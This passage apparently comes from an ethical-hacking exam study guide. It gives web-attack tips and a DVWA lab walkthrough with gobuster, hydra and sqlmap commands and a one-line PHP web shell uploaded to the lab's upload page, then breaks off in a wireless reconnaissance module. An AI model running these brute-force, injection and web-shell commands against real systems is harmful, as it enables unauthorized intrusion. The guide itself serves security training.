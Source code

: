 ### Pro Tips:

- **Always check**: `/robots.txt` and `/.git/` for sensitive info
- **Critical parameters**: `id`, `search`, `username`, `file`
- **Exam trick**: Chain `gobuster` + `sqlmap` for quick wins
- **Must-know headers**: `X-Forwarded-For`, `User-Agent`

### Real-World Exam Lab

Task: Compromise DVWA (Low Security)

```
1. gobuster dir -u http://10.10.10.10/dvwa -w wordlist.txt
```

```
2. hydra -l admin -p password http-get-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout" -vV
```

```
3. sqlmap -u "http://10.10.10.10/dvwa/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=abc123" --dbs
```

```
4. echo "<?php system(\$_GET['cmd']); ?>" > shell.php && curl -F "upload=@shell.php" http://10.10.10.10/dvwa/vulnerabilities/upload/
```

# Run these until automatic:

```
gobuster dir -u http://10.10.10.10 -w wordlist.txt
```

```
hydra -l admin -P rockyou.txt http-post-form "/login.php..."
```

```
sqlmap -u "http://10.10.10.10/products?id=1" --dbs
```

**[Back to top](#top)**
___

## Module 16: Hacking Wireless Networks

### 1. Wireless Reconnaissance (Exam Weight: 25%)

Discover nearby networks

```
airodump-ng wlan0mon
```

Target specific AP
